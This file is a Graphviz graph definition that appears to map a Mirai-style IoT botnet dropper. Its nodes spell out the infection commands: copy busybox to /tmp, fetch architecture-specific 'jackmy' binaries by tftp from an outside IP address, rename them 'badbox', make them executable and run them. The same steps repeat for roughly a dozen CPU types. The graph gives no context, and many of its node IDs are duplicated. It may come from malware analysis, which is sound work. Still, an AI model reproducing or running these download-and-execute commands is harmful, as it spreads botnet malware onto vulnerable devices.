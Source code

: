 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
148 [label="cd /tmp "];
148 -> 148
6 [label="tftp -r jackmymips -g 163.172.104.150 "];
6 -> 8 [label=";,"];
8 [label="cat jackmymips badbox "];
8 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
18 [label="tftp -r jackmymipsel -g 163.172.104.150 "];
18 -> 20 [label=";,"];
20 [label="cat jackmymipsel badbox "];
20 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
30 [label="tftp -r jackmysh4 -g 163.172.104.150 "];
30 -> 32 [label=";,"];
32 [label="cat jackmysh4 badbox "];
32 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
42 [label="tftp -r jackmyx86 -g 163.172.104.150 "];
42 -> 44 [label=";,"];
44 [label="cat jackmyx86 badbox "];
44 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
54 [label="tftp -r jackmyarmv6 -g 163.172.104.150 "];
54 -> 56 [label=";,"];
56 [label="cat jackmyarmv6 badbox "];
56 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
66 [label="tftp -r jackmyi686 -g 163.172.104.150 "];
66 -> 68 [label=";,"];
68 [label="cat jackmyi686 badbox "];
68 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
78 [label="tftp -r jackmypowerpc -g 163.172.104.150 "];
78 -> 80 [label=";,"];
80 [label="cat jackmypowerpc badbox "];
80 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
90 [label="tftp -r jackmyi586 -g 163.172.104.150 "];
90 -> 92 [label=";,"];
92 [label="cat jackmyi586 badbox "];
92 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
102 [label="tftp -r jackmym86k -g 163.172.104.150 "];
102 -> 104 [label=";,"];
104 [label="cat jackmym86k badbox "];
104 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
114 [label="tftp -r jackmysparc -g 163.172.104.150 "];
114 -> 116 [label=";,"];
116 [label="cat jackmysparc badbox "];
116 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
126 [label="tftp -r jackmyarmv4 -g 163.172.104.150 "];
126 -> 128 [label=";,"];
128 [label="cat jackmyarmv4 badbox "];
128 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
138 [label="tftp -r jackmyarmv5 -g 163.172.104.150 "];
138 -> 140 [label=";,"];
140 [label="cat jackmyarmv5 badbox "];
140 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
150 [label="tftp -r jackmypowerpc440 -g 163.172.104.150 "];
150 -> 152 [label=";,"];
152 [label="cat jackmypowerpc440 badbox "];
152 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
}
